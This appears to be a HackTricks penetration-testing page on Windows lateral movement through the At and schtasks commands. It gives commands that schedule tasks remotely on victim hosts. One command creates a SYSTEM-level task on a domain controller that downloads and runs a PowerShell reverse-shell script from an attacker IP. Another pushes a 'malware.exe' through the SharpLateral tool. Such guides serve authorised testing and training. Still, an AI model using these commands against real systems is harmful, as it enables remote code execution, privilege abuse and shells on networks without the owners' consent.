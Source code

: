 # AtExec / SchtasksExec

{{#include ../../banners/hacktricks-training.md}}

## How Does it works

At allows to schedule tasks in hosts where you know username/(password/Hash). So, you can use it to execute commands in other hosts and get the output.

```
At \\victim 11:00:00PM shutdown -r
```

Using schtasks you need first to create the task and then call it:

```bash
schtasks /create /n <TASK_NAME> /tr C:\path\executable.exe /sc once /st 00:00 /S <VICTIM> /RU System
schtasks /run /tn <TASK_NAME> /S <VICTIM>
```

```bash
schtasks /create /S dcorp-dc.domain.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "MyNewtask" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/InvokePowerShellTcp.ps1''')'"
schtasks /run /tn "MyNewtask" /S dcorp-dc.domain.local
```

You can also use [SharpLateral](https://github.com/mertdas/SharpLateral):

```bash
SharpLateral schedule HOSTNAME C:\Users\Administrator\Desktop\malware.exe TaskName
```

More information about the [**use of schtasks with silver tickets here**](../active-directory-methodology/silver-ticket.md#host).

{{#include ../../banners/hacktricks-training.md}}

